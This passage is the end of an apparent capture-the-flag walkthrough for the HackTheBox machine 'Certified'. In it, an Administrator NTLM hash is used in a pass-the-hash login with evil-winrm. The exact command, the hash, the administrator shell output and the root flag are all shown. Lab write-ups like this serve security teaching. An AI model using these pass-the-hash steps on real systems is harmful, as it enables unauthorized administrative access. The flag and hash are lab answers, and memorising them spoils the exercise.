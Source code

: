 > Result:

![administrator_hash](./screenshots/administrator_hash.png)

> I get **NTLM hash** of the `Administrator` - `aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34`

> I use the received hash to authenticate in the system under `Administrator` via `winrm`:

```bash

sudo evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34

```
> Result:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
certified\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
> I get root flag:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/26/2025   5:27 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> more root.txt
45ce140feb29179b6ca07a991a7cf394

*Evil-WinRM* PS C:\Users\Administrator\Desktop>

```
